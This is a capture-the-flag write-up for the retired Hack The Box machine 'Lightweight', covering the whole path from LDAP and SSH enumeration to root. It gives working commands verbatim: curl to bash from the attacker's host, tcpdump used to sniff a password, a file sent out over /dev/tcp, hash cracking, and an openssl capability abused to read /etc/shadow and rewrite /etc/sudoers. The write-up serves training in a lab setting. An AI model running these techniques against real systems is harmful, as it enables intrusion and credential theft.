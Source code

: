 # Lightweight

This is the write-up for the box Lightweight that got retired at the 11th May 2019.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.119    lightweight.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/lightweight.nmap 10.10.10.119
```

```markdown
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (ED25519)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

## Checking LDAP (port 389)

Lets check if we have anonymous authentication with **ldapsearch**:
```markdown
ldapsearch -x -h 10.10.10.119
```

It gives us a response and we can specify the search scope as _base_:
```markdown
ldapsearch -x -h 10.10.10.119 -s base namingcontexts

#
dn:
namingContexts: dc=lightweight,dc=htb
```

Search through that branch:
```markdown
ldapsearch -x -h 10.10.10.119 -b 'dc=lightweight,dc=htb'
```

Now we dumped the information of this branch and there are two users:
```markdown
dn: uid=ldapuser1,ou=People,dc=lightweight,dc=htb
uid: ldapuser1
mail: ldapuser1@lightweight.htb
objectClass: shadowAccount
userPassword:: e2NyeXB0fSQ2JDNxeDBTRDl4JFE5eTFseVFhRktweHFrR3FLQWpMT1dkMzNOd2Roai5sNE16Vjd2VG5ma0UvZy9aLzdONVpiZEVRV2Z1cDJsU2RBU0ltSHRRRmg2ek1vNDFaQS4vNDQv

dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
uid: ldapuser2
mail: ldapuser2@lightweight.htb
objectClass: shadowAccount
userPassword:: e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdmszYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x

userPassword:: e2NyeXB0fXg=
```

When decoding the hashes with Base64 we get the following output:
```markdown
ldauser1:
{crypt}$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/

ldapuser2:
{crypt}$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1

userPassword:
{crypt}x
```

The **$6$** indicates that this is **SHA512 encrypted** which can be found in the hashcat-example list and we can try to crack these hashes:
```markdown
hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt
```

This won't crack the hashes unfortunately.

## Checking HTTP (Port 80)

On the web page we get the information that it is protected against brute-forcing.
The _/user.php_ tells us that the server lets us get in with SSH:
> This server lets you get in with ssh. Your IP (10.10.14.23) is automatically added as userid and password within a minute of your first http page request. We strongly suggest you to change your password as soon as you get in the box.

## Checking SSH (Port 22)

As the web server told us, we can SSH into the box:
```markdown
ssh 10.10.14.23@10.10.10.19
```

The password is the same as our IP and we are logged in on the box.

Lets execute the enumeration script **LinEnum.sh** on this box to get more information about it.
```markdown
curl 10.10.14.23/LinEnum.sh | bash
```

Interestingly our user has the **POSIX capability** to execute the command _tcpdump_ as root which means we don't have command execution but have the permission to sniff traffic. Additionally we know the name of the network interface we will need for this procedure.
```markdown
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

### Sniffing traffic

We will use _tcpdump_ with SSH so we won't write anything to the disk itself:
```markdown
ssh 10.10.14.23@10.10.10.119 "/usr/sbin/tcpdump -i ens33 -U -s0 -w - 'not port 22'" > lightweight.ens33.cap
```

Now we can run Wireshark with the capture file:
```markdown
wireshark lightweight.ens33.cap
```

While that runs we can sniff the live traffic on the _localhost_ interface:
```markdown
ssh 10.10.14.23@10.10.10.119 "/usr/sbin/tcpdump -i lo -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

If we refresh all the pages on the web server we get some information on the localhost interface of the box:

![Wireshark on localhost](https://kyuu-ji.github.io/htb-write-up/lightweight/lightweight_wireshark-1.png)

When following the LDAP request, we see that _ldapuser2_ authenticates on the box with a password:

![Wireshark on localhost](https://kyuu-ji.github.io/htb-write-up/lightweight/lightweight_wireshark-2.png)

Password of _ldapuser2_:
> 8bc8251332abe1d7f105d3e53ad39ac2

Trying this password to change to the user:
```markdown
su - ldapuser2
```

The password works and we are authenticated as _ldapuser2_!

## Privilege Escalation

In the home directory of this user is a file called _backup.7z_ that we download to our local box.
```markdown
# On local machine:
nc -lvnp 9001 > backup.7z

# On the box:
cat backup.7z > /dev/tcp/10.10.14.23/9001
```

Decompress the 7z file:
```markdown
7z x backup.7z
```

This file wants a password so we extract the hash.
```markdown
./7z2john.pl backup.7z
```

This will output a long string that we can try to crack with **Hashcat**.
```markdown
hashcat -m 11600 backup.hash /usr/share/wordlists/rockyou.txt
```

After a while Hashcat cracked it and the password for the 7z file is:
> delete

In this archive we find the PHP source code of the web page.
The file _status.php_ has the password of _ldapuser1_ in clear-text:
> f3ca9d298a553da117442deeb6fa932d

### Privilege Escalation to root

Now we can authenticate with both users and should escalate our privileges to root with the user _ldapuser1_.
In his home directory we find these files:
- ldapTLS.php
- capture.pcap
- openssl

When looking at the capabilities of this user we see that he has the same as ours for _tcpdump_ but he got different ones for **openssl**:
```markdown
getcap *

# Output
openssl =ep
tcpdump = cap_net_admin,cap_net_raw+ep
```

If we look at the `man capabilities` we can read the following:
> Note that one can assign empty capability sets to a program file, and thus it is possible to create a set-user-ID-root program that changes the effective and saved set-user-ID of the process that executes the program to 0, but confers no capabilities to that process.

This is the case for `openssl` so we are going to look at **GTFObins** to find a way to exploit this.
We can test the _File read_ one by reading the Shadows file which normally could only be read by root:
```markdown
./openssl enc -in /etc/shadow
```

It is important to use the `openssl` binary in the home folder of the user and it works.
So we can read the contents of **/etc/sudoers**, put it into a new file with sudo permissions for this user and write it back with `openssl`.
```markdown
# Write output to new file
./openssl enc -in /etc/sudoers > sudoers

# Add permissions in the new file
root            ALL=(ALL)       ALL
ldapuser1       ALL=(ALL)       ALL

# Replace old sudoers file with new one
cat ./sudoers | ./openssl enc -out /etc/sudoers
```

Now we can `sudo -l` with _ldapuser1_ and see that we have root permissions. With `sudo su -` we can become root!
